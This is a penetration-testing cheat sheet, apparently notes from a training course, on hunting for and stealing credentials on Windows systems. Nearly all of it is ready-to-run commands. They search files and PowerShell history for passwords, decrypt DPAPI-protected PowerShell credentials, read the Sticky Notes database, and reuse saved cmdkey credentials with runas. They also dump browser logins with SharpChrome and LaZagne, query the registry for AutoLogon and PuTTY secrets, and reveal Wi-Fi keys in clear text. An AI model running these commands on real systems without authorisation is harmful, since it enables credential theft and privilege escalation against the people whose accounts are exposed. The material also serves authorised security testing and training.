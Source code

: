 # Credential Theft

In this section will cover:
- Credential Hunting
- Other Files
- Further Credential Theft

## Credential Hunting

Credentials can unlock many doors for us during our assessments. We may find credentials during our privilege escalation enumeration that can lead directly to local admin access, grant us a foothold into the Active Directory domain environment, or even be used to escalate privileges within the domain. There are many places that we may find credentials on a system, some more obvious than others.

**Application Configuration Files**
````
# Searching for Files
> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml

# Chrome Dictionary Files
> gc 'C:\Users\<user>\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password

# PowerShell History File
> (Get-PSReadLineOption).HistorySavePath
> gc (Get-PSReadLineOption).HistorySavePath
> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
````
**Unattended Installation Files**

Unattended installation files may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the unattend.xml are stored in plaintext or base64 encoded.

**PowerShell Credentials**

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using DPAPI, which typically means they can only be decrypted by the same user on the same computer they were created on.
Take, for example, the following script Connect-VC.ps1, which a sysadmin has created to connect to a vCenter server easily.
````
# Connect-VC.ps1
# Get-Credential | Export-Clixml -Path 'C:\scripts\pass.xml'
$encryptedPassword = Import-Clixml -Path 'C:\scripts\pass.xml'
$decryptedPassword = $encryptedPassword.GetNetworkCredential().Password
Connect-VIServer -Server 'VC-01' -User 'bob_adm' -Password $decryptedPassword
````
Decrypting PowerShell Credentials
````
> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
> $credential.GetNetworkCredential().username
> $credential.GetNetworkCredential().password
````

## Other Files

There are many other types of files that we may find on a local system or on network share drives that may contain credentials or additional information that can be used to escalate privileges. In an Active Directory environment, we can use a tool such as Snaffler to crawl network share drives for interesting file extensions such as .kdbx, .vmdk, .vdhx, .ppk, etc. We may find a virtual hard drive that we can mount and extract local administrator password hashes from, an SSH private key that can be used to access other systems, or instances of users storing passwords in Excel/Word Documents, OneNote workbooks, or even the classic passwords.txt file. 

**Manually Searching the File System for Credentials**
````
# Content file
> cd c:\Users\<user>\Documents & findstr /SI /M "password" *.xml *.ini *.txt
> findstr /si password *.xml *.ini *.txt *.config
> findstr /spin "password" *.*
> select-string -Path C:\Users\<user>\Documents\*.txt -Pattern password

# File Extension
> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
> where /R C:\ *.config
> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
````
**Sticky Notes Passwords**
````
# Looking for StickyNotes DB Files
C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
# Copy the plum.sqlite
# Open this file in DB Browerser and to Note table
---------------------------------------------------
# View from Windonws Powershell
> Set-ExecutionPolicy Bypass -Scope Process
> cd .\PSSQLite\
> Import-Module .\PSSQLite.psd1
> $db = 'C:\Users\htb-student\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
````
**Other Files of Interest**
- %SYSTEMDRIVE%\pagefile.sys
- %WINDIR%\debug\NetSetup.log
- %WINDIR%\repair\sam
- %WINDIR%\repair\system
- %WINDIR%\repair\software, %WINDIR%\repair\security
- %WINDIR%\iis6.log
- %WINDIR%\system32\config\AppEvent.Evt
- %WINDIR%\system32\config\SecEvent.Evt
- %WINDIR%\system32\config\default.sav
- %WINDIR%\system32\config\security.sav
- %WINDIR%\system32\config\software.sav
- %WINDIR%\system32\config\system.sav
- %WINDIR%\system32\CCM\logs\*.log
- %USERPROFILE%\ntuser.dat
- %USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
- %WINDIR%\System32\drivers\etc\hosts
- C:\ProgramData\Configs\*
- C:\Program Files\Windows PowerShell\*

## Further Credential Theft

There are many other techniques we can use to potentially obtain credentials on a Windows system.

**Cmdkey Saved Credentials**
````
> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: <pc>\bob

# Run Commands as Another User
> runas /savecred /user:<pc>\bob "COMMAND HERE"
````
**Browser Credentials**
````
# Retrieving Saved Credentials from Chrome
> .\SharpChrome.exe logins /unprotect
````
**Email**

If we gain access to a domain-joined system in the context of a domain user with a Microsoft Exchange inbox, we can attempt to search the user's email for terms such as "pass," "creds," "credentials," etc. using the tool MailSniper.

**More Fun with Credentials**
````
# Lazagne
> .\lazagne.exe all

# SessionGopher.ps1
> Import-Module .\SessionGopher.ps1
> Invoke-SessionGopher -Target <Server>
````
**Clear-Text Password Storage in the Registry**
````
# Windows AutoLogon
> reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

# Putty
> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<session>
````
**Wifi Passwords**
````
# Viewing Saved Wireless Networks
> netsh wlan show profile

# Retrieving Saved Wireless Passwords
> netsh wlan show profile <ssid> key=clear
````
